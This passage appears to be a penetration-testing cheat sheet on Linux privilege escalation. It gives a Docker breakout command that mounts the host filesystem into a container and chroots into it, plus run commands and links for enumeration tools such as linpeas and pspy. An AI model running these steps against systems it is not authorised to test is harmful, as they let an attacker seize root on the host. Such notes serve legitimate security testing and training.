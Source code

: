 ### Docker Breakout [PrivEsc]
-> Search the socket
```
find / -name docker.sock 2>/dev/null
```

-> list images  
```
docker images
```

-> Exploitation
```
docker run -it -v /:/host/ <image>:<tag> chroot /host/ bash
```

### Linux Enumeration Tools [PrivEsc]
-> Linpeas
```
./linpeas.sh
```
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

-> pspy (unprivileged Linux process snooping)  
```
./pspy64
```
https://github.com/DominicBreuker/pspy

-> linux-exploit-suggester
```
./linux-exploit-suggester.sh
```
or  
```
./linux-exploit-suiggester.sh --uname <uname-string>
```
https://github.com/The-Z-Labs/linux-exploit-suggester

-> Unix Privesc Check
```
./unix-privesc-check
```
https://pentestmonkey.net/tools/audit/unix-privesc-check
